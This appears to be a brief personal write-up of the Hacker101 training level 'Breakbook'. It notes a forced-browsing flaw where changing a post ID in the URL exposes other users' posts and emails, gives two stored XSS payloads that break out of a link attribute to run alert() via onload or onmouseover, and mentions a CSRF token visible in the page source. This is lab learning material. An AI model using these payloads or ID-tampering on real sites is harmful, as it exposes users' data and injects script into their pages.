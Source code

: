 # Level 1: Breakbook


```
		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Stored XSS
		Forced Browsing

		Have fun!
```
    

## Forced Browsing:      
```https://levels-a.hacker101.com/levels/1/post?id=88```      
Change post ID to view anyone's post & their gmail IDs

---- 

## Stored XSS:        
Post a HTTP link with a delimiter like `"` or `* `     
`http://test.com/"onload="alert('hakd')`    
`http://requestb.in/*/onmouseover=*alert(1)`

----
  
## CSRF:    
Token is exposed in source. Not sure what can I do with it unless I manage to obtain someone else's token
